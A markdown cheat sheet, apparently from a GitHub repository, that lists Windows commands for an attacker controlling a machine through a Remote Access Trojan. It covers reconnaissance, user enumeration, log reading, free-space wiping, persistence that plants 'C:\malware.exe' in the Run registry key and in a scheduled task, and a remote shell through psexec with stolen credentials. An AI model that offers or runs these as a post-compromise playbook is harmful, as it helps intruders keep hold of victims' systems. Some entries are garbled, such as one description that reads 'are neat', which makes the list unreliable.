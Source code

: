 # List of useful commands for attacker (Windows) using Remote Access Trojan (RAT)

### 1. Basic System Information

| Command        | Description           
| ------------- |:-------------:| 
| systeminfo      | Lists OS, hardware, and patch details | 
| hostname      | 	Shows the computer name      |  
| whoami        |   Displays current user |
| wmic csproduct get name | are neat      |   



### 2. Network Diagnostics

| Command        | Description           
| ------------- |:-------------:| 
| ipconfig /all      | Shows full network configuration | 
| netstat -ano      | 	Lists all active connections and portse      |  
| ping google.com        |   Tests internet connectivity |
| tracert 8.8.8.8 | 	Traces network route to a host      |   


### 3.  User & Permission Management

| Command        | Description           
| ------------- |:-------------:| 
| net user      | Lists all user accounts | 
| net localgroup administrators      | 	Shows admin users      |  
| whoami /priv        |   	Checks current user privileges |


### 4. File System Operations

| Command        | Description           
| ------------- |:-------------:| 
| dir C:\      | Lists files in a directory | 
| type C:\file.txt      | 	Views file contents      |  
| del /s C:\temp\file.txt        |   	Deletes a file |
| copy C:\file.txt C:\backup\        |   	Copies files |



### 5. Process & Service Control
| Command	| Description |
| ------------- |:-------------:| 
| tasklist |	Lists running processes |
| taskkill /IM notepad.exe /F |	Force-closes a process |
| sc query |	Lists all Windows services |
| net start |	Shows running services |



### 6. 6. Security & Logs

| Command        | Description           
| ------------- |:-------------:| 
| wevtutil qe Security /rd:true /f:text |	Reads security event logs |
| auditpol /get /category:*	| Checks audit policies |
| cipher /w:C:\ | 	Securely wipes free space |


### 7. Persistence (For Ethical Testing)
| Command        | Description           
| ------------- |:-------------:| 
| schtasks /create /tn "TaskName" /tr "C:\payload.exe" /sc hourly	 | Creates a scheduled task |
| reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v "MyApp" /t REG_SZ /d "C:\malware.exe"	| Adds to startup (registry) |



### 8. Remote Administration (Admin Rights Required)

| Command        | Description           
| ------------- |:-------------:| 
| shutdown /r /t 60 /c "Restarting for updates" |	Reboots the system |
| wmic /node:"CLIENT_IP" process call create "cmd.exe"	| Runs commands remotely (WMIC) |
| psexec \\CLIENT_IP -u USER -p PASS cmd.exe	| Remote shell (PsExec from Sysinternals) |


























